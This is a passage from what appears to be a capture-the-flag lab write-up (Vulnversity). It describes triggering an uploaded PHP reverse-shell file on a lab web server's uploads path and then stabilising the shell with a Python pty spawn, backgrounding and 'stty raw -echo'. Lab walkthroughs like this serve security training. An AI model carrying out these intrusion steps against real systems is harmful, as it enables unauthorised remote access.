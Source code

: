 There was an uploads directory. In the browser, access the file we uploaded which will be present in the path
> http://10.10.79.6:3333/internal/uploads/php_reverse_shell.phtml.
 
After file is accessed, we get a reverse shell.

<img src="images/01.Vulnversity/12.png" height="400">

Now that we've got a shell, we need to stabilize the shell as it is unstable. We don't want to loose our connection if we hit ctrl+c or anything.

Run the command to spawn a tty shell.

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Now hit ctrl+z to background it.

```
Ctrl+Z
```

Now you will get your shell and disable text display and foreground the process.

```
stty raw -echo && fg
```

Set the terminal varialbe.

```
export TERM=xterm
```
